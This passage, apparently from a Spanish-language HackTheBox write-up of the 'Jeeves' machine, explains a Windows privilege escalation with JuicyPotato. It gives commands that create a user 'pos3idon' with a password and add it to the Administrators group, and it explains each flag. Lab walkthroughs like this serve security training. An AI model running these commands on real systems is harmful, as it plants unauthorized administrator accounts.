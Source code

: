 ![](/assets/img/HackTheBox/Jeeves/priv1.png)
### Juicy Potato

Para hacer uso de esta herramienta lo que tenemos que hacer es descargar el `JuicyPotato.exe` de el repositorio de Github y una vez descargado lo vamos a copiar en la maquina windows por SMB.

Una vez ya tengamos el ejecutable.exe en el sistema:

Crear un nuevo usuario.

```
JuicyPotato.exe -t * -p c:\Windows\System32\cmd.exe -a "/c net user pos3idon pos3idon123$! /add" -l 1234
```

- `JuicyPotato.exe`: Es el ejecutable de la herramienta Juicy Potato.
- `-t *`: Especifica el tipo de tokens de seguridad a usar. En este caso, el asterisco (*) indica que se intentará usar cualquier token disponible.
- `-p c:\Windows\System32\cmd.exe`: Especifica el programa que se ejecutará con los privilegios elevados.
- `-a "/c net user pos3idon pos3idon123$! /add"`: Es el argumento que se pasará al programa especificado en el parámetro `-p`. En este caso, se está ejecutando el comando `net user` para agregar un nuevo usuario llamado "pos3idon" con la contraseña "pos3idon123$!".
- `-l 1234`: Especifica el puerto local que se utilizará para la comunicación.

Este comando intenta aprovechar una vulnerabilidad en el servicio "Local Service" de Windows para ejecutar el comando `net user` con privilegios elevados y agregar un nuevo usuario al sistema con el nombre "pos3idon" y la contraseña "pos3idon123$!".


Agregar usuario nuevo al grupo Administrators

```
JuicyPotato.exe -t * -p c:\Windows\System32\cmd.exe -a "/c net localgroup Administrators pos3idon /add" -l 1234
```
